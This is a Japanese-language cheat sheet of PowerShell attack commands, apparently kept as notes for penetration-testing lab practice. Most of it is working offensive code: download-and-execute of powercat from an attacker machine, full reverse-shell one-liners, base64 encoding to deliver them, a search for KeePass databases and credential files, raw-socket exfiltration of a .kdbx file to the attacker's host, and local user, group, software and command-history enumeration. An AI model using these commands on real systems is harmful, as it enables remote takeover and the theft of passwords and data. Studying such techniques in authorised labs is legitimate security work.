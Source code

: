 ## 現在の実行環境がコマンドプロンプトかPowerShellかをチェック
```.ps1
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

## 攻撃者のマシンからリバースシェルのスクリプトをダウンロードして実行する
```.ps1
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c <attacker IP> -p 4444 -e powershell
```

## Kali上でPowershell用のリバースシェルを生成してbase64エンコードのまま送信後、デコード・実行させる

1. パワーシェルをKali上で起動
```
pwsh
```

2. Powershellのリバースシェル用コマンドをText変数に入れる
```.ps1
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```

3. 
```.ps1
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
```

4. エンコードする
```.ps1
$EncodedText =[Convert]::ToBase64String($Bytes)
```

5. base64エンコードした文字列をターミナルに出力する
```.ps1
$EncodedText
```

6. ターゲット上でエンコードしたPowershellのリバースシェルコマンドをデコードさせて実行する
```.ps1
powershell%20-enc%20<先ほどの出力された$EncodedTextの内容>
```

7. Windowsターゲット上で、C:\配下の全ファイルを列挙。このケースでは.kdbxの拡張子のファイルを列挙
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

8. Attackerマシンからpowercatを取得して実行し、リバースシェルを取る
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.243/powercat.ps1');powercat -c 192.168.45.243 -p 4444 -e cmd"
```

9. 単純なリバースシェルコマンドで、コマンドプロンプトから実行させると動くのを確認済み
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.45.243',4444);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

10. Kali側でncを使ってデータをレシーブ状態にさせて、データをPowershell側から送信する。動作検証済み
```
$content = Get-Content 'Database.kdbx' -Raw
$socket = New-Object System.Net.Sockets.TcpClient('192.168.45.243', 9999)
$stream = $socket.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$writer.Write($content)
$writer.Flush()
$writer.Close()
$socket.Close()
```

11. Windows環境のローカルユーザを列挙する
```
Get-LocalUser
```

12. paulがローカルのどのグループのメンバーであるかを確認する
```
net user paul
```

13. ホスト上の既存のグループを列挙する
```
Get-LocalGroup
```

14. adminteamというローカルグループのメンバーを確認する
```
Get-LocalGroupMember adminteam
```

15. インストールされているすべてのアプリケーションを列挙する
```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

16. 実行中のアプリケーションを一覧表示する
```
Get-Process
```

17. 認証情報が置かれてそうなファイルをすべて列挙
```
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

18. 過去に実行されたコマンドのリストを取得する
```
Get-History
```

19. PSReadlineモジュールからPowerShellの実行履歴を取得したファイルパスを出力する(PSReadlineというモジュールによってコマンド履歴が記録されるが、これはClear-Historyコマンドでは削除されない)
```
(Get-PSReadlineOption).HistorySavePath
```

19. passというキーワードで、windows上のイベントビューアから平文のパスワードがPowerShell経由で実行されていないか、スクリプトブロックログを検索する
```
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | Where-Object { $_.Message -match "pass" }
```